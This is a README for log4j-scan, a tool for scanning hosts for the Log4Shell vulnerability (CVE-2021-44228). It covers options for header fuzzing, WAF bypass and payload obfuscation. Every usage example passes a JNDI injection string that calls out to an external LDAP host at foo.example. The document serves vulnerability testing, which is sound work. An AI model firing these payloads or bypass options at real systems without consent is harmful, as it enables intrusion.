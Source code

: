 # log4j-scan
A fully automated, accurate, and extensive scanner for finding vulnerable log4j hosts

# Features

- Support for lists of URLs.
- Fuzzing for more than 60 HTTP request headers (not only 3-4 headers as previously seen tools).
- Fuzzing for HTTP POST Data parameters.
- Fuzzing for JSON data parameters.
- WAF Bypass payloads.

# Usage

```
$ python3 log4j-scan.py -h
[+] CVE-2021-44228 - Apache Log4j RCE Scanner
[+] Scanner provided with modifications by ReliaQuest
usage: log4j-scan.py [-h] [-u URL] [--proxy PROXY] [-l USEDLIST] [-x REQUEST_TYPE] [--headers-file HEADERS_FILE] [--all-methods] [--exclude-user-agent-fuzzing] [--waf-bypass] [--disable-http-redirects] -p
                     EXPLOIT_PAYLOAD [-o]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Scan a single URL.
  --proxy PROXY         Send requests through a HTTP proxy. Proxy should be specified in the format supported by requests (http[s]://<proxy-ip>:<proxy-port>
  -l USEDLIST, --list USEDLIST
                        File path to text file containing URLs to scan
  -x REQUEST_TYPE, --request-type REQUEST_TYPE
                        Request Type: (get, post) - [Default: get].
  --headers-file HEADERS_FILE
                        Headers fuzzing list - [default: headers.txt].
  --all-methods         Attempt both POST and GET requests
  --exclude-user-agent-fuzzing
                        Exclude User-Agent header from fuzzing - useful to bypass weak checks on User-Agents.
  --waf-bypass          Extend scans with WAF bypass payloads.
  --disable-http-redirects
                        Disable HTTP redirects. Note: HTTP redirects are useful as it allows the payloads to have higher chance of reaching vulnerable systems.
  -p EXPLOIT_PAYLOAD, --payload EXPLOIT_PAYLOAD
                        The ReliaQuest provided testing string
  -o, --obfuscate       Use obfuscation on the payload (may result in application performance degradation)
  -s, --small-payloads  Use smaller payloads. Generates more requests, but reduces size of requests. (Recommended)
```

## Scan a Single URL

```shell
$ python3 log4j-scan.py -u https://log4j.lab.local -p '${jndi:ldap://foo.example/}'
```

## Scan a Single URL using all Request Methods: GET, POST (url-encoded form), POST (JSON body)

```shell
$ python3 log4j-scan.py -u https://log4j.lab.local --all-methods -p '${jndi:ldap://foo.example/}'
```

## Discover WAF bypasses on the environment.

```shell
$ python3 log4j-scan.py -u https://log4j.lab.local --waf-bypass -p '${jndi:ldap://foo.example/}'
```

## Scan a list of URLs

```shell
$ python3 log4j-scan.py -l urls.txt -p '${jndi:ldap://foo.example/}'
```

## Use smaller payloads
This method generates more requests to the target application(s), but results in **significantly smaller payload sizes**.

```shell
$ python3 log4j-scan.py -s -u https://log4j.lab.local -p '${jndi:ldap://foo.example/}'
```

You may find it advantageous to combine this with the `--exclude-user-agent-fuzzing` switch so that the User-Agent string remains as its default

```shell
$ python3 log4j-scan.py -s --exclude-user-agent-fuzzing -u https://log4j.lab.local -p '${jndi:ldap://foo.example/}'
```

## Use the obfuscation library
The provided `jndiobfuscator` can be leveraged with the `-o` switch. Resulting payloads will result in significantly more load on the target application, use this with caution. This can be combined with other options such as the `--waf-bypass` option.

```shell
$ python3 log4j-scan.py -u https://log4j.lab.local -p '${jndi:ldap://foo.example/}'
```


# Installation

```
$ pip3 install -r requirements.txt
```

# Docker Support

```shell
cd log4j-scan
sudo docker build -t log4j-scan .
sudo docker run -it --rm log4j-scan

# With URL list "urls.txt" in current directory
docker run -it --rm -v $PWD:/data log4j-scan -l /data/urls.txt -p '${jndi:ldap://foo.example/}'
```

# Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of log4j-scan for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# License
The project is licensed under MIT License.
